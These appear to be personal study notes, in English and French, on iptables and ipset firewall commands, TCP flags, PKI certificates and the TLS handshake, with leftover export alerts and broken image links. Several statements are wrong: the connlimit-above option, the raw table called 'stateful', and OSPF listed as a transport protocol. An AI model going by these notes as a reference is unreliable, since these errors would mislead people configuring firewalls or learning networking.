* **Using a name domain on the rule could not block the connection to the target site because they may use multiple IP addresses for one domain and you only filtered one or some.**
* **Netfilter Tables:**
    * **filter : **
        * **Default table for Iptables.**
        * **Where the decision of accepting or dropping packets is taken.**
        * **Built-in chains : INPUT, OUTPUT and FORWARD.**
    * **nat :**
        * **Specialized for SNAT and DNAT (Port forwarding)**
        * **Built-in chains : PREROUTING, POSTROUTING and OUTPUT ( for locally generated packets).**
    * **mangle :**
        * **Specialized for packet alteration ( on headers, …).**
        * **Built-in chains : All.**
    * **raw :**
        * **Stateful table**
        * **Built-in chains : PREROUTING and OUTPUT.**
        * **Use to set a mark on packets that should not be handled by the connection tracking system**
* **We can redefine the default chain policy that is applied after all rules were executed.**
* **The order used for the rules is very important in the process.**

**	**


* **Netfilter command :**
    * **General Syntax : **

                **iptables [-t TABLE_NAME] [-COMMAND] [CHAIN]  [matches] [-j TARGET]**


                **[-t TABLE_NAME] : Indicates on which table the command operates. By default it is the _Filter_ table.**


        **	**


                **[-COMMAND] : Indicates the operation we perform on a chain of the table.**


                **[CHAIN] : Indicates on which chain the command operates.**


                **[matches] : Indicates some conditions , characteristic to the packet that we need to perform an action.**


**				[-j TARGET] : Indicates what action is taken on **


        **        packets.**


* **Iptables [-t TABLE_NAME] -L -vn [CHAIN]:**

                **Print the rules of the specified table (_Filter_ by default).**


                **Option -vn for more details.**

* **Differents common options for [-COMMAND]:**

<table>
  <tr>
   <td>
<strong>-A</strong>
   </td>
   <td><strong>Append the rule to the end of the selected chain.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-I [CHAIN] [POSITION]</strong>
   </td>
   <td><strong>Insert one or more rules in the selected chain on a specific position, by default on top (position 1).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-L</strong>
   </td>
   <td><strong>List all rules in the selected chain. If no chain is selected, all chains are listed.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>[-t TABLE_NAME] -F</strong>
   </td>
   <td><strong>Flush the selected chain ( all the chains in the table if none is given).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>[-t TABLE_NAME] -Z</strong>
   </td>
   <td><strong>Zero (reset) the packet and byte counters in all chains, or only the given chain.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-N</strong>
   </td>
   <td><strong>Create a new user-defined chain by the given name.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>[-t TABLE_NAME] -X</strong>
   </td>
   <td><strong>Delete the user-defined chain specified ( delete all user-defined chains if a chain is not specified).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-P [CHAIN] [ACTION]</strong>
   </td>
   <td><strong>Set the default policy for the built-in chain (INPUT, OUTPUT or FORWARD).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-D</strong>
   </td>
   <td><strong>Delete one or more rules from the selected chain.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-R</strong>
   </td>
   <td><strong>Replace a rule in the selected chain.</strong>
   </td>
  </tr>
</table>


* **Differents common options for [-matches]:**

<table>
  <tr>
   <td>
<strong>-s --source [IP address | network address | domain name ]</strong>
   </td>
   <td><strong>Match by source IP Network Address</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-d --destination [IP address | network address | domain name ]</strong>
   </td>
   <td><strong>Match by destination IP Network Address</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m iprange --src-range [IP_start-IP_end]</strong>
   </td>
   <td><strong>Match by IP Range for source</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m iprange --dst-range [IP_start-IP_end]</strong>
   </td>
   <td><strong>Match by IP Range for destination</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m addrtype --src-type [UNICAST,MULTICAST,BROADCAST,...]</strong>
   </td>
   <td><strong>Match by Address Type for source</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m addrtype --dst-type [UNICAST,MULTICAST,BROADCAST,...]</strong>
   </td>
   <td><strong>Match by destination Type for source</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-p [tcp | udp ] --dport [PORT]</strong>
   </td>
   <td><strong>Match by a single destination port</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-p [tcp | udp ] --sport [PORT]</strong>
   </td>
   <td><strong>Match by a single source port</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m multiport [--dports|--sports] [PORT1, PORT2, .. ]</strong>
   </td>
   <td><strong>Match by multiple ports</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-i [incoming_interface]</strong>
   </td>
   <td><strong>Match by incoming interface</strong>
<p>
<strong>Available for : INPUT, FORWARD and PREROUTING.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-o [outgoing_interface]</strong>
   </td>
   <td><strong>Match by outgoing interface</strong>
<p>
<strong>Available for : OUTPUT, FORWARD and POSTROUTING.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-p [PROTOCOL]</strong>
   </td>
   <td><strong>Match by protocol</strong>
   </td>
  </tr>
  <tr>
   <td><strong>! [matches]</strong>
   </td>
   <td><strong>Negating Matches</strong>
   </td>
  </tr>
  <tr>
   <td><strong>--syn</strong>
   </td>
   <td><strong>Match if the syn flag in set</strong>
   </td>
  </tr>
  <tr>
   <td><strong>--tcp-flags [list_mask] [list_comp]</strong>
   </td>
   <td><strong>Match by TCP flag. The first argument mask is the flags which we should examine, written as a comma-separated list, and the second argument comp is a comma-separated list of flags which must be set.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m state --state [list_state]</strong>
   </td>
   <td><strong>Match by packets state. list_state : comma separated values in uppercase letters.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m mac --mac-source [source_mac_adress]</strong>
   </td>
   <td><strong>Match by source mac address (it’s impossible by destination mac address )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m time [OPTION]</strong>
   </td>
   <td><strong>Match by Date and Time. See the documentation for the options.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m connlimit [--connlimit-upto | --connlimit-above] [number]</strong>
   </td>
   <td><strong>Match by number of existing connections:</strong>
<p>
<strong>--connlimit-upto : match if the number of existing connections is less than n.</strong>
<p>
<strong>--connlimit-above : match if the number of existing connections is less than n.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m limit [--limit | --limit-burst ] [value]</strong>
   </td>
   <td><strong>Match by maximum matches per time-unit and before an above limit.</strong>
<p>
<strong>--limit : where value is the maximum matches per time-unit ( default second )</strong>
<p>
<strong>--limit-burst : where value is maximum matches before a above limit.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m recent [OPTIONS]</strong>
   </td>
   <td><strong>Match with dynamic database of blacklisted source IP addresses.</strong>
<p>
<strong>Options : </strong>
<ul>

<li><strong>--name [name_list]: Specify and creates a blacklist if not existed.</strong>
<p>

    <strong>path of the file : /proc/net/xt_recent/[name_list]</strong>
<ul>

<li><strong>--set : Adds the source IP address to the list.</strong>
<ul>

<li><strong>--update : Checks if the source IP address is in the list and updates the “last seen time”.</strong>
<ul>

<li><strong>--rcheck : Checks if the source Ip address is in the list and doesn't update the “last seen time”.</strong>
<ul>

<li><strong>--seconds [number]: Used with --update or --rcheck. Matches the packet only if the source IP address is in the list and the last seen time is valid.</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td><strong>-m quota --quota [bytes]</strong>
   </td>
   <td><strong>Match by quota ( of packets ). When the quota is reached, the rule doesn’t match any more.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-m set [OPTION]</strong>
   </td>
   <td><strong>Match using ipset</strong>
<p>
<strong>option : </strong>
<ul>

<li><strong>--match-set [name_set] [dst | src ]: Use the specified set of IP address.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**Differents common options for [-j TARGET]:**


<table>
  <tr>
   <td><strong>-j SET --add-set [name_set] [src |dst]</strong>
   </td>
   <td><strong>Add a entry in a set of ipset.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td><strong> </strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **Rules written in the terminal are not saved after the system is shut down. To persist the rules, you have to write a script automatically executed when the system boots.**
* **Default Policy can be changed only for INPUT, OUTPUT and FORWARD chains. It can be changed using -P option. This is either accept or drop packet.**

            **Exemple:**


            **iptables -P INPUT DROP**


**			iptables -P OUTPUT ACCEPT**

**			iptables -P FORWARD DROP**


* **iptables-save [-c] [-t _table_] > [file name]:**

**			Dump the iptables rules in a file. Then, we can load the rules**


        **of this file into memory with this command : iptables-restore**


            **[file name].**

**			option -c : save the bit and packet counter.**


* **To save iptables rules after restart :**
    * **Install iptable-persistent.**

** 				sudo apt update && sudo apt install iptables-persistent **

**				iptable-persistent automatically loads rules from this **


            **file : /etc/iptables/rules.v4**


* **iptables-save > /etc/iptables/rules.v4 to save iptables rules in this persistent file**
* **To remove persistent iptables rules:**

**				Edit /etc/iptables/rules.v4**


* **Packets states ( for stateful firewall ):**
    * **NEW : First packet from a connection.**
    * **ESTABLISHED : packets that are part of an existing connection.**
    * **RELATED : packets that are requesting a new connection and are already part of an existing connection ( Ex: FTP).**
    * **INVALID : Packets that are not part of any existing connection.  The packet can't be identified or that it does not have any state.**
    * **UNTRACKED : packets marked within the raw table with the NOTRACK target.**
* **Ipset is an extension to iptables that allows us to create firewall rules that match entire “sets” of addresses at once.**

            **It’s very efficient when dealing with large sets.**


            **Ipset lets you create huge lists of ip addresses and/or ports, which are stored in a tiny piece of ram with extreme efficiency.**


            **Some commands and features :**

* **ipset [-N| create] [name] [METHOD] [OPTION] : create a new set called [named] using the method [METHOD] for searching and storing information**

                **( example : hash:ip ). **

* **ipset [-A| add] [name] [IP_ADR] : Add the IP address in the set.**
* **ipset [-L| list] [name_set]: Print out all the sets.**
* **ipset [del| -D] [name_set] [entry] : Delete the entries in the set.**
* **ipset [-F| flush] [name_set] : Delete all the entries the specified set.**
* **ipset [destroy |-X] [name_set] : Delete the specified set. You can only delete a set if there is no correspondence with a rule in iptables.**
* **“maxelem” is a variable that corresponds to the maximum elements that a set can contain.**

                **By default, is 65 535.**

4.  Network


## 					TCP header FLag


<p id="gdcalert8" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image8.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert9">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**SYN : Only the first packet from sender as well as receiver should have this flag set. This is used for synchronizing sequence number.**

**ACK : It is used to acknowledge packets which are successfully received by the host. The flag is set if the acknowledgement number field ( sended ) contains a valid acknowledgement number.**

**RST ( Reset ) : It is used to terminate the connection if the RST sender feels something is wrong with the TCP connection. It can get sent from a receiver side when the packet is sent to a particular host that was not expecting it.**


<p id="gdcalert9" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image9.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert10">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**PUSH : Transport layer by default waits for some time for application layer to send enough data equal to maximum segment size so that the number of packets transmitted on the network minimizes, which is not desirable by some applications like interactive applications(chatting). **

**Similarly, transport layer at receiver end buffers packets and transmit to application layer if it meets certain criteria.**

**This problem is solved by using PSH. Receiver transport layer, on seeing PSH = 1 immediately forwards the data to application layer.**

**In general, it tells the receiver to process these packets as they are received instead of buffering them.**

**URG ( Urgent ) : Data inside a segment with URG = 1 flag is forwarded to the application layer immediately even if there are more data to be given to the application layer. It is used to notify the receiver to process the urgent packets before processing all other packets. The receiver will be notified when all known urgent data has been received.**


<p id="gdcalert10" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image10.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert11">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**				     TCP 3-way handShake**


<p id="gdcalert11" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image11.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert12">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**MSS : Max Segment Size.**

**WINDOW : When we start a TCP connection, the hosts will use a receive buffer where we temporarily store data before the application can process it.**

**When the receiver sends an acknowledgment, it will tell the sender how much data it can transmit before the receiver will send an acknowledgment. We call this the window size. Basically, the window size indicates the size of the receive buffer.**

**				 TCP connection termination**


<p id="gdcalert12" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image12.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert13">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* **Difference between closed and filtered port :**
    * **Closed port = In some cases, it means that no application is listening on this port. A specific tcp packet is returned.**
    * **Filtered port = Port opened but packets dropped by a firewall.**

        **Encapsulation des couches :**


<p id="gdcalert13" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image13.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert14">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert14" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image14.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert15">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Modèle TCP/IP :

        

<p id="gdcalert15" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image15.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert16">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* **Le nom de modèle TCP/IP est étroitement lié à deux protocoles : le protocole TCP (Transmission Control Protocol) et le protocole IP (Internet Protocol). Ceci est en partie dû au fait que ce sont les deux protocoles les plus utilisés pour Internet.**
    * **L’origine du modèle TCP/IP remonte au réseau ARPANET. **
* **Le protocole UDP intervient lorsque le temps de remise des paquets est prédominant et non la fiabilité.**
    * **D'autres protocoles de la couche Transport que TCP, UDP:  SCTP, OSPF, SPX, ATP.**
    * **...**
* Certificat et PKI:
    * **PKI (Public Key Infrastructure) est un système de gestion des clefs publiques qui permet de gérer des listes importantes de clefs publiques et d'en assurer la fiabilité, pour des entités généralement dans un réseau. **
* **Une infrastructure PKI fournit donc quatre services principaux:**

                **- fabrication de bi-clés.**


                **- Certification de clé publique et publication de**


                **  certificats.**


                **- Révocation de certificats.**


                **- Gestion de la fonction de certification.**

* **Une PKI utilise des mécanismes de signature et certifie des clés publiques qui permettent de chiffrer et de signer des messages ainsi que des flux de données, afin d'assurer la confidentialité, l'authentification, l'intégrité et la non-répudiation (l'émetteur des données ne pourra pas nier être à l'origine du message car la signature a été faite avec sa clef privée).**
* **Faiblesse : si l’une quelconque parmi les autorités de certification certifie un site frauduleux, ce certificat sera vérifié correctement par des millions de navigateurs.**
* **Une des raisons de l'apparition de la notion de certification est de se prémunir de l’attaque Man In The Middle : On doit être sur que la clé publique utilisée n’appartient pas à un attaquant.**
* **Chaque navigateur ou service qui utilise des certificats contient une liste de certificats racine approuvés. Lors de la visite d'un site web avec une connexion TLS/SSL, la validité d'un certificat est vérifiée en contrôlant les empreintes digitales du certificat et des certificats intermédiaires associés jusqu'à ce que l'empreinte digitale du certificat racine coïncide.**

            **Structure d’un Certificat :**


<p id="gdcalert16" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image16.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert17">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**	En résumé :**


* **Numero de serie**
* **Clé publique**
* **information de l'autorité de certification qui a signé **
* **Information sur le détenteur du certificat**
* **Période de validité**
* **Signature**

            **     Comment vérifier un certificat ?**


<p id="gdcalert17" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image17.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert18">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert18" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image18.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert19">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**Dans une infrastructure à clé publique ; pour obtenir un certificat numérique, l'utilisateur fait une demande auprès de l'autorité d'enregistrement. Celle-ci génère un couple de clef (clé publique, clé privée), envoie la clé privée au client, applique une procédure et des critères définis par l'autorité de certification qui certifie la clé publique et appose sa signature sur le certificat, parfois fabriqué par un opérateur de certification.**


* Protocole TLS ( Transport Layer Security ) / SSL ( Secure Sockets Layer ) :
    * **TLS est un protocole qui permet l’établissement d’une connexion sécurisée (chiffrée, intègre et authentifiée).**
    * **Les protocoles TLS (et SSL) sont situés entre la couche du protocole d’application et la couche TCP/IP, où ils peuvent sécuriser et envoyer des données d’application à la couche de transport. Étant donné que les protocoles fonctionnent entre la couche application et la couche transport, les protocoles TLS et SSL peuvent prendre en charge plusieurs protocoles de la couche application.**
    * **La principale différence entre SSL et TLS est que ce dernier utilise des algorithmes de chiffrement plus fort et qu’il peut supporter plusieurs extensions.**
    * **Le protocole TLS est formé par 4 sous protocoles :**
        * **Protocole Handshake ( Création des clefs )**
        * **Protocole Record ( application des clefs )**
        * **Protocole Change Cipher Spec (CCS)**
        * **Protocole Alert ( Gestion des erreurs )**
* **1) Protocole Handshake ( TLS Handshake ):**
            * **C’est le protocole qui régit l’établissement d’une connexion entre deux entités d’un réseau. Il gère l’authentification du serveur et/ou du client, la négociation des algorithmes de chiffrement et la génération des clés symétriques.**

            

<p id="gdcalert19" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image19.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert20">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* **1) C -> S.ClientHello: le client initie une requête en envoyant un message de type ClientHello qui contient:**
    * **Version: la plus haute version de SSL/TLS que puisse utiliser le client.**
    * **Random: un horodatage de 32 bits et une valeur aléatoire de 28 octets générée par le client qui sera utilisée pour la dérivation des clés. The client random and the server random are later used to generate the key for encryption.**
    * **CipherSuite: une liste, par ordre décroissant de préférence, des suites cryptographiques que supporte le client.**

                **Cipher suites are identified by strings. A sample cipher suite string is ( example ): TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256. This string contains the following information:**

* **TLS is the protocol being used.**
* **ECDHE is the key exchange algorithm (Elliptic curve Diffie–Hellman Ephemeral).**

                    **ECDSA is the authentication algorithm (Elliptic Curve Digital Signature Algorithm).**

* **AES_128_GCM is the data encryption algorithm (Advanced Encryption Standard 128 bit Galois/Counter Mode).**
* **SHA256 is the Message Authentication Code (MAC) algorithm Secure Hash Algorithm 256 bit).**
    * **Extensions: les différentes extensions TLS supportées par le client ( extensions such as supported groups for elliptic curve cryptography, point formats for elliptic curve cryptography, signature algorithms, and more).**

                **If the server cannot provide the additional functionality, the client may abort the handshake if needed.**

* **Compression_methods_list : This is the method that is going to be used for compressing the SSL packets. By using compression, we can achieve lower bandwidth usage and therefore, faster transfer speeds. But using compression is risky.**
* **Session ID: un nombre, qui identifie la connexion; (optionnel).**

                **Et peut être d’autres champs “moins importants”.**

* **2)  S -> C .ServerHello: le serveur répond au client avec un message de type ServerHello. A Server Hello may either contain selected options (from among those proposed during Client Hello) or it may be a handshake failure message. cette étape qui contient:**
        * **Version: la plus haute version de SSL/TLS que puisse utiliser le serveur ( the selected protocol version );**
        * **Random: un horodatage de 32 bits et une valeur aléatoire de 28 octet;**
        * **CipherSuite: la suite cryptographique retenue pour la session. Le serveur sélectionne la première suite qu’il connaît dans la liste transmise par le client;**
* **Compression_methods : The server selects the compression method from among Compression Methods sent in the Client Hello.**
        * **Extensions: les différentes extensions TLS supportées par le serveur.**
* **3)  S -> C .ServerCertificate: Le serveur envoie son certificat X509 qui contient des informations sur sa clé publique.**

        **In rare cases, the server may require the client to be authenticated with a client certificate. If so, the client provides its signed certificate to the server.**

* **4)  S. Server Key Exchange Generation : The server calculates “a private/public keypair” for key exchange ( Diffie-Hellman ).**

        **It will do this via an elliptical curve method ( using sometimes the x25519 curve ).**


        **The private key is chosen by selecting an integer between 0 and 2^(256-1). It does this by generating 32 bytes (256 bits) of random data.**


        **The public key is chosen by multiplying the point x=9 on the x25519 curve by the private key.**

* **5)  S -> C .ServerKeyExchange : The server provides information for key exchange. **

        **As part of the key exchange process, both the server and the client will have a keypair of public and private keys, and will send the other party their public key ( using elliptical curve Diffie-Hellman method ).**


        **The shared encryption key will then be generated using a combination of each party's private key and the other party's public key **


        **( Diffie-Hellman ) .**


        **Maybe the parties have agreed on a cipher suite using ECDHE, meaning the keypairs will be based on a selected Elliptic Curve, Diffie-Hellman will be used, and the keypairs are Ephemeral (generated for each connection) rather than using the public/private key from the certificate.**

* **6).  S -> C .ServerHelloDone: Le serveur indique qu’il attend une réponse du client. The server indicates it's finished with its half of the handshake.**
* **4)  C. Client Key Exchange Generation : Like the server, The client calculates “a private/public keypair” for key exchange with the same method ( using elliptical curve Diffie-Hellman method ).**
* **6). C -> S.ClientKeyExchange: Just like the server, The Client provides information for key exchange.**
* **4)  C. Client Encryption calculation : The client now has the information to calculate the encryption keys that will be used by each side. **

        **It uses the following information in this calculation:**

    * **server random (from Server Hello)**
    * **client random (from Client Hello)**
    * **server public key (from Server Key Exchange)**
    * **client private key (from Client Key Generation)**

        **The client multiplies the server's public key with the client's private key using the curveXXXX() algorithm. The 32-byte result is called the PreMasterSecret.**


        **The client then calculates the MasterSecret ( 48 bytes ) from the PreMasterSecret, client_random, server_random.**


        **Cette transformation est essentielle car le PreMasterSecret est d’une taille différente selon la méthode utilisée pour sa génération. Il faut donc dériver cette valeur en une autre avec une valeur constante ( MasterSecret de 48 byte ).**


        **We then generate the final encryption keys using the MasterSecret, client_random, server_random.**


**		final encryption keys :**


* **client MAC key: For client authentication and integrity with whatever MAC algorithm you chose in the cipher suite.**
* **server MAC key: For server authentication and integrity with whatever MAC algorithm you chose in the cipher suite.**
* **client write key : For the symmetric encryption.**
* **server write key : For the symmetric encryption.**
* **client write IV :  IV used by a mode of operation of some symmetric algorithm that could be chosen.**
* **server write IV : IV used by a mode of operation of some symmetric algorithm that could be chosen.**

**		The symmetric ciphers chosen in the handshake will dictate**


        **how long these keys we generate need to be.**


        **To recap : **


        **Diffie-Hellman -> PreMasterSecret -> MasterSecret ( 48 bytes ) -> 4 ( or 6 with IV ) variable-length keys.**

**		**


* **7). C -> S .ChangeCipherSpec: The client indicates that it has calculated the shared encryption keys and that all following messages from the client will be encrypted with the client write key.**

        **In TLS 1.3, this message type has been removed because it can be inferred.**


        **At this point, the client is ready to switch to a secure, encrypted environment. The Change Cipher Spec protocol is used to change the encryption.**

* **8). C -> S .Finished: To verify that the handshake was successful and not tampered with, the client calculates verification data and encrypts it with the client write key.**

**The verification data is built from a hash of all handshake  messages and verifies the integrity of the handshake process.**


* **4)  S. Server Encryption calculation : Same as the client : calculate the Final Keys.**
* **9).  S -> C .ChangeCipherSpec: pareil côté serveur.**
* **10). S -> C .Finished: pareil coté server. The last message of the handshake process from the server (sent encrypted) signifies that the handshake is finished.**
* **2) Protocole Record**
    * **C’est le protocole qui gère la transmission des données chiffrées sous une forme homogène en les encapsulant, il a pour objectifs:**
        * **Confidentialité: les données sont chiffrées en utilisant les clés produites lors de la négociation.**
        * **Intégrité et Authenticité: Grâce aux signatures HMAC. Cette signature est elle aussi générée à l’aide des clés produites lors de la négociation.**
        * **Encapsulation:  permet aux données SSL/TLS d’être transmises de manière normalisée et reconnues sous une forme homogène.**

            **Les étapes du processus d’encapsulation du protocole Record sont les suivantes:**


    

<p id="gdcalert20" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image20.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert21">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





    * **Segmentation: les données sont découpées en blocs de taille inférieure à 16 ko;**
    * **Compression: les données sont compressées en utilisant l’algorithme choisi lors de la négociation. A noter: à partir de SSL v3.0, il n’y a plus de compression;**
    * **Signature MAC: une signature des données est générée à l’aide de la clé MAC (dans le cas de l’utilisation de l’extension MAC_then_encrypt);**
    * **Chiffrement: le paquet obtenu est chiffré à l’aide de la fonction définie lors de la négociation et de la key.encryption;**
    * **Ajout de l’en-tête: l’en-tête SSL/TLS est ajouté et le paquet est passé à la couche inférieure. Il contient:**
        * **Content-Type: indique le type de paquet SSL et TLS contenu dans l’enregistrement;**
        * **Major Version, Minor Version: numéros de version du protocole SSL/TLS utilisé;**
        * **Length: taille du fragment SSL et TLS.**

**		**

**			À la réception des paquets, le destinataire vérifie l’en-tête du**


        **paquet, le déchiffre, vérifie le champ HMAC et rassemble les**


            **différents blocs.**


            **The handshake can currently use 5 different algorithms to do the key exchange: RSA, Diffie-Hellman, Elliptic Curve Diffie-Hellman and the ephemeral versions of the last two algorithms.**


            **On peut noter que les données chiffrées sont seulement ceux de la Couche Application.**


* **3) Protocole Change Cipher Spec**
    * **Ce protocole contient un seul message de 1 octet ChangeCipherSpec et permet de modifier les algorithmes de chiffrement et établir de nouveaux paramètres de sécurité. Il indique au protocole Record le changement des suites cryptographiques.**
* **4) Protocole Alert**
    * **Ce protocole spécifie les messages d’erreur que peuvent s’envoyer clients et serveurs. Les messages sont composés de deux octets. Le premier est soit warning ( connexion instable ) soit fatal. **

                **Si le niveau est fatal, la connexion est abandonnée. **


                **Le deuxième octet donne le code d’erreur.**


**				Exemple de type d’erreurs :**


<table>
  <tr>
   <td><strong>             erreurs fatales</strong>
   </td>
   <td><strong>                 Warnings</strong>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Unexpected_message – indique que le message n’a pas été reconnu</strong>
<ul>

<li><strong>Bad_record_mac – signale une signature MAC incorrecte</strong>
<ul>

